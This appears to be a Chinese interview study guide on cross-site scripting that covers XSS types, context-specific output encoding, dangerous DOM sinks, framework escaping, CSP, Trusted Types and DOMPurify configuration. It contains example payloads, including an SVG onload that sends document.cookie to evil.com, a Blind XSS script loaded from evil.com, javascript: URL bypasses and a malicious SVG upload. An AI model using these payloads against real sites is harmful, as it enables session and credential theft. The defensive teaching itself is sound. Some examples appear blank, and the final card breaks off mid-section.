


# 安全 · 01 XSS 跨站脚本攻击

> 覆盖题号：**1**；对应原题：《说说你对 XSS 的了解》
> 主线：**注入点 → 输出上下文 → 编码方式 → 防御层次**

---

## 目录

- [1. 一句话结论与本质](#1-一句话结论与本质)
- [2. 三种类型（主干）](#2-三种类型主干)
- [3. 补充类型：mXSS / Self-XSS / Blind XSS](#3-补充类型mxss--self-xss--blind-xss)
- [4. 危害：不只是"弹个窗"](#4-危害不只是弹个窗)
- [5. 五种输出上下文与对应编码（核心）](#5-五种输出上下文与对应编码核心)
- [6. 危险 API 清单（sink）](#6-危险-api-清单sink)
- [7. 框架的自动转义与它的漏洞](#7-框架的自动转义与它的漏洞)
- [8. 防御五层（纵深防御）](#8-防御五层纵深防御)
- [9. 最难的场景：富文本怎么办](#9-最难的场景富文本怎么办)
- [10. 怎么排查项目里的 XSS](#10-怎么排查项目里的-xss)
- [11. 常见坑](#11-常见坑)
- [12. 答题模板](#12-答题模板)
- [13. 追问表](#13-追问表)
- [14. 速记卡](#14-速记卡)

---

## 1. 一句话结论与本质

### 1.1 一句话

**XSS（Cross-Site Scripting）= 攻击者让"他的代码"在"我的页面"的源（origin）下执行。** 因为同源，这段代码拥有页面的全部权限：读 Cookie、读 DOM、发请求、改界面。

### 1.2 本质：数据被当成了代码

```html
<!-- 正常：用户输入被当成"文本" -->
<p>用户说：你好</p>

<!-- XSS：用户输入被当成"HTML 标签" -->
<p>用户说：</p>
```

**所有注入类漏洞（XSS、SQL 注入、命令注入、模板注入）都是同一个病根**：没有区分"数据"和"代码"。防御的通用解法也只有一个：**在正确的上下文中做正确的编码，让数据永远只是数据。**

### 1.3 为什么名字是 XSS 而不是 CSS

因为 CSS 已被 "Cascading Style Sheets" 占用，所以缩写改成 XSS（Cross-Site Scripting → XSS）。

---

## 2. 三种类型（主干）

### 2.1 对比总表

| | **存储型（Stored）** | **反射型（Reflected）** | **DOM 型（DOM-based）** |
|---|---|---|---|
| 恶意代码在哪 | **数据库/服务端存储** | **URL 参数**，服务端原样返回 | **URL/其他客户端源**，前端 JS 自己插入 |
| 是否经过服务端 | 是（存 + 取） | 是（读参数 + 回显） | **否**（服务端可能完全不知情） |
| 触发方式 | 所有访问该页面的人 | 诱导受害者点特定链接 | 诱导点链接，或前端自动读取 |
| 影响范围 | **最大**（一人上传，全员中招） | 单个受害者 | 单个受害者 |
| 持久性 | **持久** | 一次性 | 一次性 |
| 典型场景 | 评论区、昵称、商品评价、个人签名、工单内容、文件名 | 搜索结果页、错误提示页、`?msg=` 回显 | `location.hash` 渲染、`innerHTML` 拼接 |
| 检测难度 | 中 | 低 | **高**（传统 WAF 看不到，payload 在 `#` 后不到服务端） |

### 2.2 存储型：影响最大



```html
<!-- src 不存在时触发 onerror -->


<!-- svg 的 onload 在解析后直接触发，不需要加载失败 -->
<svg onload="fetch('https://evil.com/?c='+document.cookie)">
```

恶意内容入库后，所有访问该页面的用户都会执行；配合"自动转发"功能可形成蠕虫——2005 年 MySpace 的 Samy 蠕虫在 20 小时内感染约 100 万用户。

### 2.3 反射型：需要诱导点击

```
https://victim.com/search?q=<script>alert(document.cookie)</script>
```

服务端把 `q` 原样拼进 HTML 返回：

```html
<!-- 服务端模板（错误写法） -->
<div>您搜索的是：<%= q %></div>
<!-- 输出：<div>您搜索的是：<script>alert(document.cookie)</script></div> -->
```

**流程**：攻击者构造好链接 → 通过短信/邮件/短链诱导受害者点击 → 服务端把 payload 反射回页面 → 执行。

**浏览器不兜底**：`X-XSS-Protection` 已废弃，Chrome 移除了 XSS Auditor，反射型只能靠服务端输出编码。

### 2.4 DOM 型：纯前端，服务端看不到

```js
// ❌ 典型的 DOM XSS：从 location 取值直接进 innerHTML
const keyword = decodeURIComponent(location.hash.slice(1))
document.getElementById('result').innerHTML = `搜索结果：${keyword}`
```

攻击链接：

```
https://victim.com/#
```

**关键特征**：`#` 后面的内容**不会发给服务端**，所以：
- 服务端的 WAF、日志、输入过滤**完全看不到**
- 传统扫描器（只看请求/响应）**检测不到**
- 必须在**浏览器里跑 JS**才能触发

**DOM XSS 的 source（数据来源）清单：**

| Source | 例子 |
|---|---|
| `location.hash` | `#` |
| `location.search` | `?q=` |
| `location.href` / `document.URL` | 整串 URL |
| `document.referrer` | 来源页 URL（可被攻击者控制） |
| `window.name` | 跨页面持久，可被写入 |
| `postMessage` 的 `event.data` | 未校验 origin 时 |
| `localStorage` / `sessionStorage` | 被其他 XSS 写入的脏数据 |
| `document.cookie` | 同上 |
| 接口返回的 JSON（服务端未过滤） | 二次注入 |

**DOM XSS 的 sink（危险出口）**：`innerHTML`、`insertAdjacentHTML`、`document.write`、`eval` / `new Function`、`location` 赋值、jQuery 的 `.html()` 等，完整清单与替代写法见第 6 节。

**DOM 型不经过服务端，后端过滤救不了，只能在前端代码里修。**

---

## 3. 补充类型：mXSS / Self-XSS / Blind XSS

### 3.1 mXSS（Mutation XSS）

**原理**：某些看似"已经安全"的 HTML，在经过浏览器解析 → 序列化 → 再解析的过程中会**变形**成可执行的形式。

```js
// 经过一次 sanitize，看起来安全
const clean = sanitize('<noscript><p title="</noscript>">')
// 序列化后再被 innerHTML 解析时，<noscript> 的内容被重新解析成真实标签
```

这是不能自己写正则过滤 HTML、必须用经过 mXSS 测试的消毒库（DOMPurify）的原因。

### 3.2 Self-XSS

**原理**：诱骗受害者**自己在控制台粘贴代码**。

> 常见话术："复制这段代码到控制台，可以解锁会员"。

**防御**：控制台警告与用户教育；页面无法阻止用户主动粘贴。

### 3.3 Blind XSS

**原理**：payload 提交后不会立刻执行，而是**在管理员后台执行**（比如客服工单系统、日志查看页）。

```
攻击者在"联系客服"里提交：<script src="https://evil.com/x.js"></script>
→ 客服在后台打开工单时执行
→ 攻击者拿到管理员权限
```

**为什么危险**：从"低权限用户"跳到"管理员"。**后台系统同样要做输出编码**，不能只保护 C 端页面。

---

## 4. 危害：不只是"弹个窗"

| 危害 | 说明 |
|---|---|
| **窃取凭证** | `document.cookie`（若没 HttpOnly）、`localStorage` 里的 token |
| **以受害者身份操作** | 用他的登录态发请求：转账、发消息、改密码 |
| **键盘记录** | 监听 `keydown`，把用户输入的密码、卡号发出去 |
| **页面篡改 / 钓鱼** | 把登录框替换成假的，诱导重新输入密码 |
| **蠕虫传播** | 自动发带 payload 的内容给好友（存储型 + 社交功能） |
| **挖矿 / 僵尸网络** | 注入 `<script src="coinminer.js">`，用用户 CPU 挖矿 |
| **内网探测** | 用受害者的浏览器访问内网地址（浏览器在内网里） |
| **绕过 CSRF 防护** | CSRF Token 渲染在页面里，XSS 能直接读出来——这是"XSS 比 CSRF 更严重"的核心理由 |
| **读取页面全部数据** | 同源，所以能读任何渲染出来的信息（订单、余额、聊天记录） |
| **持久化后门** | 注册 Service Worker，即使用户改了密码也能继续控制 |

---

## 5. 五种输出上下文与对应编码（核心）

> 同一份数据放在不同位置需要不同的编码，这是"输出编码（Output Encoding）"和"输入过滤（Input Filtering）"的根本区别。

### 5.1 五种上下文

| # | 上下文 | 示例 | 正确做法 | 错误做法的后果 |
|---|---|---|---|---|
| ① | **HTML 正文** | `<div>用户输入</div>` | HTML 实体编码 `& < > " '` | 插入 `` 直接执行 |
| ② | **HTML 属性** | `<input value="用户输入">` | **属性值加引号** + 编码 `"` 和 `'` | 闭合引号后注入新属性 `" onfocus="alert(1)` |
| ③ | **URL 参数** | `<a href="/s?q=用户输入">` | `encodeURIComponent` + **校验 scheme** | `javascript:alert(1)` 直接执行 |
| ④ | **JS 字符串** | `<script>var a = '用户输入'</script>` | `JSON.stringify` + 转义 `<` | 闭合引号注入语句；`</script>` 提前闭合标签 |
| ⑤ | **CSS** | `<style>.x{background:url(用户输入)}</style>` | 尽量避免；必须用则严格白名单 | `expression()`（老 IE）、`url(javascript:)` |

### 5.2 逐个看代码

**① HTML 正文**

```js
function escapeHtml(str) {
  return String(str)
    .replace(/&/g, '&amp;')     // 必须第一个替换，否则会二次转义出 &amp;lt;
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;')
}

el.textContent = userInput          // ✅ 浏览器按文本节点插入，不解析标签
el.innerHTML = escapeHtml(userInput) // ✅ 手动编码后可用
el.innerHTML = userInput             // ❌ 危险
```

**② HTML 属性**

```html
<!-- ❌ 危险：属性没加引号 -->
<div class=user-{{ cls }}>    <!-- cls = 'x onclick=alert(1)' -->

<!-- ✅ 正确：加引号 + 编码引号 -->
<div class="{{ escapeAttr(cls) }}">
```

```js
function escapeAttr(str) {
  return String(str)
    .replace(/&/g, '&amp;')
    .replace(/"/g, '&quot;')
    .replace(/'/g, '&#x27;')
    .replace(/</g, '&lt;')
    .replace(/>/g, '&gt;')
}
```

**不加引号的属性值是重灾区**：值里的空格会让后面的内容变成新属性。

**③ URL —— 最容易被忽略的一类**

```js
// ❌ 危险：只做了编码，没校验协议
const url = `https://site.com/redirect?to=${encodeURIComponent(userInput)}`
// userInput = 'javascript:alert(1)' → 参数值是 javascript%3Aalert(1)，服务端解码后仍是 javascript:alert(1)

// ✅ 正确：白名单校验协议
function safeUrl(input) {
  try {
    const u = new URL(input, location.origin)
    // 只允许 http/https，且如果是绝对 URL 还要校验域名白名单
    if (!['http:', 'https:'].includes(u.protocol)) return '#'
    return u.href
  } catch {
    return '#'
  }
}
```

```html
<!-- 三种危险写法 -->
<a href="javascript:alert(1)">x</a>
<a href="java&#x09;script:alert(1)">x</a>       <!-- 实体解码后再被 URL 解析器去掉制表符 -->
<a href="data:text/html,<script>alert(1)</script>">x</a>
```

**为什么 `javascript:` 特别危险**：它会在**当前页面上下文**执行，等价于直接 XSS。浏览器解析 URL 时先做 HTML 实体解码、再删除制表符和换行，所以 `java&#x09;script:` 解析出的 `protocol` 仍是 `javascript:`；黑名单匹配 `<script>` 完全防不住。

**④ JS 字符串**

```js
// ❌ 危险：直接拼
const html = `<script>var name = "${userName}"</script>`
// userName = '";alert(1);//'  →  var name = "";alert(1);//

// ✅ 正确一：JSON.stringify 会转义引号和反斜杠
const html = `<script>var name = ${JSON.stringify(userName)}</script>`

// ✅ 正确二：不内联，把值放进 data-* 属性，再用 el.dataset 读
```

**第二个坑：`</script>` 会提前闭合脚本块。** 而且 `JSON.stringify` 不转义 `<`（实测 `JSON.stringify('</script>')` 原样输出），必须再处理：

```js
// 危险：userInput = '</script><script>alert(1)</script>'
`<script>var x = "${userInput}"</script>`

// ✅ 正确：JSON 序列化后把 < 转成 \u003c
`<script>var x = ${JSON.stringify(userInput).replace(/</g, '\\u003c')}</script>`
```

`\u003c` 是 `serialize-javascript` 这类库的标准做法：转义后 `</script>` 不再出现在 HTML 源码里，无法提前闭合标签。

**⑤ CSS**

```html
<!-- ❌ 危险 -->
<div style="background: url({{ userInput }})">
```

**CSS 上下文里不要放用户输入**。如果必须（比如自定义主题色），只允许严格的格式白名单：

```js
function safeColor(input) {
  return /^#[0-9a-fA-F]{3,8}$/.test(input) ? input : '#000'
}
```

### 5.3 一条必须记住的原则

> **输入过滤和输出编码是两件事。** 入口只做"白名单式的格式校验"（手机号只能是数字），出口做"上下文相关的编码"。在入口用正则删 `script` 一定会漏：``、`<svg onload>`、编码变形、mXSS 都是绕过方式。

### 5.4 一张"我要输出到哪里"的决策表

```
我要把用户数据渲染到页面
│
├─ 只是纯文本？
│    └─ 用 textContent / {{ }} / {value}  → 框架自动处理 ✅ 收工
│
├─ 需要是 HTML（富文本、markdown 渲染）？
│    └─ 必须 DOMPurify 消毒 → 见第 9 节
│
├─ 是链接地址？
│    ├─ 校验协议白名单（http/https）→ 否则置 '#'
│    └─ 外链加 rel="noopener noreferrer"
│
├─ 是图片地址？
│    ├─ 校验协议 + 域名白名单
│    └─ 注意 SVG 可以带脚本 → 见 9.4
│
└─ 要放进 <script> 或 style？
     └─ 尽量避免；必须用则 JSON.stringify + 转义 <
```

---

## 6. 危险 API 清单（sink）

### 6.1 清单

| API | 风险 | 替代 |
|---|---|---|
| `el.innerHTML = x` | 解析 HTML，执行事件属性 | `textContent`、`el.replaceChildren()` |
| `el.outerHTML = x` | 同上 | 同上 |
| `el.insertAdjacentHTML(pos, x)` | 同上 | `insertAdjacentText` |
| `document.write(x)` | 解析 HTML | 用 DOM API |
| `eval(x)` / `new Function(x)` | 执行任意代码 | `JSON.parse`（对 JSON 数据） |
| `setTimeout(str, n)` | 传字符串时相当于 eval | 传函数 |
| `location = x` / `location.href = x` | `javascript:` 协议 | 校验协议 |
| `el.setAttribute('onclick', x)` | 内联事件 | `addEventListener` |
| `$(x)` / `$(el).html(x)` / `.append(x)`（字符串） | jQuery 解析 HTML | `.text()` |
| `iframe.srcdoc = x` | 同源执行 | 用 `sandbox` + 独立域 |
| `el.style.cssText = x` | 可注入 `url(javascript:)`（老浏览器） | 逐属性设置 |

### 6.2 怎么在项目里快速找

```bash
# 快速扫描项目里的危险 sink（在 CI 里跑，作为卡口）
grep -rn --include='*.{js,jsx,ts,tsx,vue}' \
  -E "innerHTML|outerHTML|insertAdjacentHTML|document\.write|dangerouslySetInnerHTML|v-html|srcdoc|eval\(|new Function\(" \
  src/
```

把这条 grep 接进 CI（或换成 ESLint 规则 `no-unsanitized`），命中就要求 review 说明理由。

### 6.3 ESLint 插件

```js
// eslint-plugin-no-unsanitized：禁止 innerHTML 等危险赋值
{
  "plugins": ["no-unsanitized"],
  "rules": {
    "no-unsanitized/property": "error",
    "no-unsanitized/method": "error"
  }
}
```

---

## 7. 框架的自动转义与它的漏洞

> 框架的默认转义只覆盖"文本插值"一种写法；`v-html`、`dangerouslySetInnerHTML`、`href` 绑定、服务端模板的不转义语法仍要自己负责。

### 7.1 Vue

```vue
<!-- ✅ 安全：{{ }} 是文本插值，自动转义 -->
<div>{{ userInput }}</div>

<!-- ❌ 危险：v-html 等价于 innerHTML -->
<div v-html="userInput"></div>

<!-- ⚠️ 属性绑定不做协议校验 -->
<a :href="userUrl">链接</a>
<!-- userUrl = "javascript:alert(1)" → 原样写入 href，点击即执行 -->
```

```vue
<!-- ✅ 正确姿势：需要 HTML 时先消毒 -->
<script setup>
import DOMPurify from 'dompurify'
import { computed } from 'vue'

const props = defineProps({ html: String })
const safeHtml = computed(() => DOMPurify.sanitize(props.html))
</script>

<template>
  <div v-html="safeHtml"></div>
</template>
```

**Vue 3 的细节**：`v-html` 的内容**不会**被编译成模板（不会按 Vue 模板解析），所以不用担心 `{{ }}` 注入，但**HTML 本身的 XSS 风险依然存在**。

### 7.2 React

```jsx
// ✅ 安全：JSX 自动转义
<div>{userInput}</div>

// ❌ 危险：只有名字里带 dangerous 的那个 API
<div dangerouslySetInnerHTML={{ __html: userInput }} />

// ⚠️ href / src 不做协议校验，javascript: 会执行
<a href={userUrl}>链接</a>
```

### 7.3 一个容易忽略的点：服务端模板也会转义，但取决于写法

| 模板 | 安全写法 | 危险写法 |
|---|---|---|
| EJS | `<%= x %>`（转义） | `<%- x %>`（不转义） |
| Jinja2 | `{{ x }}`（开启 autoescape 时） | `{{ x \| safe }}` |
| Thymeleaf | `th:text` | `th:utext` |
| Handlebars | `{{ x }}` | `{{{ x }}}` |

**`<%- %>` 和 `{{{ }}}` 这种"不转义"语法，是服务端渲染项目里最常见的 XSS 来源。**

### 7.4 结论

工程上用 lint 规则把上述危险 API 设为 error，确需使用时逐处豁免并写明理由。

---

## 8. 防御五层（纵深防御）



### 8.1 第一层：输出编码（根本）

见第 5 节。这一层做对，XSS 基本不可能发生。

### 8.2 第二层：用安全的 API

```js
// ✅ 优先用这些
el.textContent = data              // 文本
el.setAttribute('data-x', data)    // 属性（值会被当字符串）
el.replaceChildren(node1, node2)   // 替换子节点
document.createTextNode(data)      // 创建文本节点
```

### 8.3 第三层：消毒（需要渲染 HTML 时）

```js
import DOMPurify from 'dompurify'

// 默认配置已经很安全（会移除 script、on* 事件、javascript: 协议）
const clean = DOMPurify.sanitize(dirtyHtml)

// 允许特定标签：只用白名单，完整富文本配置见 9.3
const clean2 = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['p', 'br', 'strong', 'em', 'ul', 'ol', 'li', 'a', 'img', 'h1', 'h2', 'h3'],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,   // 只允许这几种协议
})

// 配合 Trusted Types（见 8.5）
const trusted = DOMPurify.sanitize(dirtyHtml, { RETURN_TRUSTED_TYPE: true })
el.innerHTML = trusted
```

**为什么必须用库而不是自己写正则：**

| 自己写正则的问题 | 例子 |
|---|---|
| 事件属性有很多种 | `onerror` `onload` `onfocus` `onanimationstart`… |
| 标签可以嵌套绕过 | `<scr<script>ipt>` 删一次后拼成 `<script>` |
| 编码变形 | `&#x6a;avascript:`、`\u006a` |
| 浏览器容错解析 | 畸形标签浏览器也会执行 |
| **mXSS** | 序列化/再解析过程中变形 |

### 8.4 第四层：CSP

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'nonce-{random}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
```

**作用**：注入的 `<script>` 没有 nonce、`onerror` 这类内联事件没有 hash/nonce 授权，浏览器都拒绝执行。实测：`script-src 'self'` 下用 `innerHTML` 插入 ``，控制台报 "Executing inline event handler violates the following Content Security Policy directive"，`window.__xss` 始终是 `undefined`。

**边界**：CSP 是**缓解**，不是修复。它挡不住页面自己的合法脚本把不可信数据写进 sink，也不挡数据外带（`img-src` 允许时仍可用图片外发）。详见 03 册。

### 8.5 第五层：兜底手段

| 手段 | 作用 | 局限 |
|---|---|---|
| `HttpOnly` Cookie | XSS 读不到 Cookie | 挡不住 XSS 直接发请求（见 02 册） |
| **Trusted Types** | 强制所有 HTML 赋值走策略，从 API 层面根除 sink | 需要 Chrome 系 + 改造代码 |
| `X-Content-Type-Options: nosniff` | 防上传文件被当脚本执行 | — |
| SRI | 防 CDN 资源被篡改（等于防"外部注入"） | 只对 `<script>` / `<link>` 有效 |

**Trusted Types 示例：**

```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types default dompurify
```

```js
// 开启后，el.innerHTML = 字符串 会直接抛错
// 必须通过策略创建"可信"内容
const policy = trustedTypes.createPolicy('default', {
  createHTML: (dirty) => DOMPurify.sanitize(dirty),
})
el.innerHTML = policy.createHTML(userInput)   // ✅
el.innerHTML = userInput                       // ❌ TypeError
```

它把"字符串"和"HTML"在类型层分开，从 API 层面消除 DOM XSS sink。

---

## 9. 最难的场景：富文本怎么办

> 富文本必须允许一部分 HTML，是 XSS 防御里约束最多的场景。

### 9.1 为什么难

| 难点 | 说明 |
|---|---|
| 不能全转义 | 否则用户看不到加粗、图片 |
| 黑名单必漏 | 事件属性、`data:` 协议、SVG、`<iframe>` |
| 前后端都要过滤 | 前端过滤可被绕过（直接发请求），后端必须再过滤一次 |
| 展示和编辑要求不同 | 编辑时可能需要更多标签 |
| 富文本还会被二次处理 | 导出 PDF、转发到其他系统时可能重新解析 |

### 9.2 正确做法（四步）

```
① 服务端存储"原始内容"  → 不做破坏性过滤（保留原文以便重新渲染/审计）
② 服务端输出时过滤       → 用成熟库（如 Java 的 OWASP Java HTML Sanitizer）
③ 前端渲染前再过滤一次   → DOMPurify（纵深防御，成本低）
④ 用 CSP 兜底            → 即使漏了也执行不了
```

### 9.3 DOMPurify 的富文本配置

```js
const RICH_TEXT_CONFIG = {
  ALLOWED_TAGS: [
    'p', 'br', 'span', 'div',
    'strong', 'b', 'em', 'i', 'u', 's',
    'h1', 'h2', 'h3', 'h4',
    'ul', 'ol', 'li',
    'blockquote', 'pre', 'code',
    'a', 'img',
    'table', 'thead', 'tbody', 'tr', 'th', 'td',
  ],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class', 'target', 'rel'],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto|tel):/i,
  // 强制外链安全
  ADD_ATTR: ['target'],
  // 禁止 style（可被用于 UI 伪装/点击劫持辅助）
  FORBID_ATTR: ['style'],
}

// 额外钩子：给所有 a 标签加 rel
DOMPurify.addHook('afterSanitizeAttributes', (node) => {
  if (node.tagName === 'A' && node.getAttribute('target') === '_blank') {
    node.setAttribute('rel', 'noopener noreferrer')
  }
})

export function sanitizeRichText(html) {
  return DOMPurify.sanitize(html, RICH_TEXT_CONFIG)
}
```

### 9.4 图片上传的一个隐蔽风险

```
用户上传 1.svg：
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.cookie)</script>
</svg>
```

如果这个 SVG 被**同源**直接访问（`https://site.com/uploads/1.svg`），其中的 script 会在**你的站点源下执行** —— 这是完整的 XSS。

**防御：**

| 手段 | 说明 |
|---|---|
| 上传目录用**独立域名** | `https://cdn-static.example.com`，与主站不同源 |
| 响应头 `Content-Disposition: attachment` | 强制下载而非渲染 |
| 响应头 `Content-Type: image/svg+xml` + `X-Content-Type-Options: nosniff` | 防 MIME 嗅探 |
| SVG 上传前消毒 | 用 DOMPurify 的 SVG 配置 |
| 或直接禁止上传 SVG | 最省事 |

---

## 10. 怎么排查项目里的 XSS

### 10.1 代码审计三步

```
① 找 sink：grep innerHTML / v-html / dangerouslySetInnerHTML / eval / location
② 顺着 sink 找 source：这个值从哪来？URL？接口？用户输入？
③ 判断有没有经过编码/消毒：如果没有，就是漏洞
```

### 10.2 动态测试

| 方法 | 说明 |
|---|---|
| 手工插 payload | 在每个输入点试 ``、`"><svg onload=alert(1)>`、`javascript:alert(1)` |
| 浏览器 DevTools | 看最终 DOM 里 payload 是否变成了真实标签（**关键判据**） |
| 自动扫描 | OWASP ZAP、Burp Suite、XSStrike |
| 看 CSP 报告 | 配 `report-uri` / `report-to` 收集被拦截的记录，线上发现注入尝试的主要手段 |

---

## 11. 常见坑

| # | 坑 | 纠正 |
|---|---|---|
| 1 | 只转义 `<` 和 `>` | 属性上下文还要转义引号；URL 上下文要校验协议 |
| 2 | 在入口用正则删 `script` | 黑名单必漏；应在出口按上下文编码 |
| 3 | 认为用了 Vue/React 就安全 | `v-html` / `dangerouslySetInnerHTML` 照样能 XSS |
| 4 | 只防 C 端不防后台 | Blind XSS 就是打后台的；后台更要防 |
| 5 | 认为后端过滤就能防 DOM 型 | DOM 型 payload 不进服务端，必须前端改代码 |
| 6 | `href` 直接绑用户输入 | `javascript:` 协议会执行；必须白名单校验 |
| 7 | 属性不加引号 | `<div class={{x}}>` 可以用空格逃逸 |
| 8 | 用 `escape()` / `encodeURI()` 当 HTML 转义 | 两者输出 `%XX` 或保留原字符（`encodeURI` 不转义 `&` 和 `'`），都不是 HTML 实体编码 |
| 9 | 富文本只在后端过滤 | 前端也要过 DOMPurify（纵深），且后端必须过滤 |
| 10 | 用户上传的 SVG/HTML 同源访问 | 等于给攻击者一个上传 XSS 的入口；用独立域 + `attachment` |
| 11 | 把 HTML 塞进 `<script>` 里 | `</script>` 会提前闭合；用 `JSON.stringify` + 转 `<` |
| 12 | 依赖 `X-XSS-Protection` | 已废弃，Chrome 移除了 XSS Auditor，应显式设为 `0` |
| 13 | CSP 加了 `'unsafe-inline'` 还以为能防 | 等于没配（见 03 册） |

---

## 12. 答题模板

### 12.1 「说说你对 XSS 的了解」——30 秒

- 定义：攻击者把脚本注入页面，在受害者的 origin 下执行，所以能读 Cookie / DOM、以用户身份发请求。
- 三型：存储型（入库、所有访客执行）、反射型（URL 参数由服务端回显）、DOM 型（前端从 `location` 取值写入 sink，不经过服务端）。
- 防御：按上下文输出编码、`textContent` 代替 `innerHTML`、必须渲染 HTML 时用 DOMPurify、CSP 兜底、Cookie 加 `HttpOnly`。

### 12.2 「说说你对 XSS 的了解」——2 分钟

- **本质**：数据和代码的边界失控，与 SQL 注入同类，只是执行环境换成浏览器。危害不止弹窗：读 token、键盘记录、冒用身份、钓鱼；还能读出页面里的 CSRF Token，绕过 CSRF 防护。
- **三型差异**：存储型一人注入、全员执行、可持久可蠕虫；反射型需诱导点击；DOM 型 payload 不进服务端，WAF 和日志都看不到，只能改前端代码。
- **防御主线**：输出编码（HTML 正文转 `& < > " '`，属性加引号并转引号，URL 编码 + 校验协议，JS 字符串用 `JSON.stringify` + 转 `<`）→ 安全 API → DOMPurify → CSP nonce → `HttpOnly` / Trusted Types。
- **工程落地**：lint 禁用危险 sink，CSP 用 `report-to` 收集线上违规。

### 12.3 追问：innerHTML 与 textContent 的区别

- `textContent` 读写文本节点，不经过 HTML 解析器；实测 `el.textContent = ''` 后 `childElementCount === 0`，标签只是字符。
- `innerHTML` / `insertAdjacentHTML` / `outerHTML` 走 HTML 解析器，相同输入会生成真实 `IMG` 元素并执行事件属性，是主要 sink。
- 只填文本用 `textContent` / `insertAdjacentText`；必须生成结构时，先消毒再赋值。

---

## 13. 追问表

| # | 追问 | 要点 |
|---|---|---|
| 1 | XSS 三型区别？ | 存储（入库、全员）/ 反射（URL 回显）/ DOM（纯前端、不过服务端） |
| 2 | 哪一型最危险？ | 存储型（影响面最大、可持久、可蠕虫） |
| 3 | 哪一型服务端防不了？ | DOM 型（payload 不进服务端） |
| 4 | 输入过滤和输出编码区别？ | 前者黑名单易漏，后者按上下文转义；同一份数据在不同上下文逃逸方式不同 |
| 5 | `javascript:` 为什么危险？ | 在当前页上下文执行，等价于 XSS；可被实体、制表符编码变形绕过黑名单 |
| 6 | 为什么要转 `</script>`？ | 它会提前闭合脚本块，后面的内容被当 HTML 解析 |
| 7 | 富文本怎么防？ | DOMPurify 白名单 + 服务端也过滤 + CSP 兜底 |
| 8 | 为什么不能自己写正则过滤？ | 事件属性多、跨标签拼接、编码变形、mXSS |
| 9 | mXSS 是什么？ | 序列化/再解析过程中 HTML 变形为可执行形式 |
| 10 | Trusted Types 是什么？ | 强制 HTML 赋值走策略，从 API 层根除 sink |
| 11 | CSP 能完全防 XSS 吗？ | 不能，是缓解；且配了 `unsafe-inline` 就等于没配 |
| 12 | HttpOnly 能防 XSS 吗？ | 只能防"偷 Cookie"，挡不住 XSS 直接发请求 |
| 13 | XSS 和 CSRF 关系？ | XSS 可以读 CSRF Token，所以能绕过 CSRF 防护 |
| 14 | 上传 SVG 有什么风险？ | SVG 可含 `<script>`，同源访问即在你的域下执行 |
| 15 | 前端框架能自动防吗？ | 只防"正常插值"，`v-html` / `dangerouslySetInnerHTML` 不防 |
| 16 | 怎么在线上发现 XSS？ | CSP `report-to` 收集违规 + 前端异常监控 + WAF 日志 |
| 17 | 怎么在 CI 里防回退？ | ESLint `no-unsanitized` + grep 危险 sink + CSP 必须有 nonce |

---

## 14. 速记卡

```
【本质】
数据被当成代码执行 → 同源 → 拥有页面全部权限
和 SQL 注入同类：只在"执行环境"上不同

【三型】
存储型：入库，全员中招，最危险，可蠕虫
反射型：URL 参数回显，需诱导点击
DOM 型：纯前端，payload 在 hash，服务端看不到，最难检测

【补三型】
mXSS：序列化再解析时变形 → 必须用 DOMPurify
Self-XSS：诱导用户在控制台粘贴
Blind XSS：在管理员后台执行 → 后台更要防

【五种上下文】
HTML 正文   → 转 & < > " '
HTML 属性   → 必须加引号 + 转引号（不加引号是重灾区）
URL         → encodeURIComponent + 校验协议（挡 javascript:/data:）
JS 字符串   → JSON.stringify + 把 < 转 \u003c（防 </script> 提前闭合）
CSS         → 基本不放用户输入；必须放则严格白名单

【防御五层】
